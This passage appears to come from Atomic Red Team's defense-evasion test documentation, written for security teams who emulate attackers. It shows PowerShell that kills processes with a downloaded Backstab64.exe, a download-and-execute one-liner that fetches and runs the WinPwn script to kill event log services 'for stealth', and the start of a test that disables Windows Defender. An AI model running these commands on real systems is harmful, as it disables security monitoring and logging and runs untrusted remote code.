 ```powershell
& "PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe" -k -n #{process_name}
```




#### Dependencies:  Run with `powershell`!
##### Description: Backstab64.exe should exist in ExtrnalPayloads Directory
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/Yaxser/Backstab/releases/download/v1.0.1-beta/Backstab64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe"
```




<br/>
<br/>

## Atomic Test #30 - WinPwn - Kill the event log services for stealth
Kill the event log services for stealth via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7869d7a3-3a30-4d2c-a5d2-f1cd9c34ce66






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
inv-phantom -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #31 - Tamper with Windows Defender ATP using Aliases - PowerShell
Attempting to disable scheduled scanning and other parts of Windows Defender ATP using set-MpPreference aliases. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.
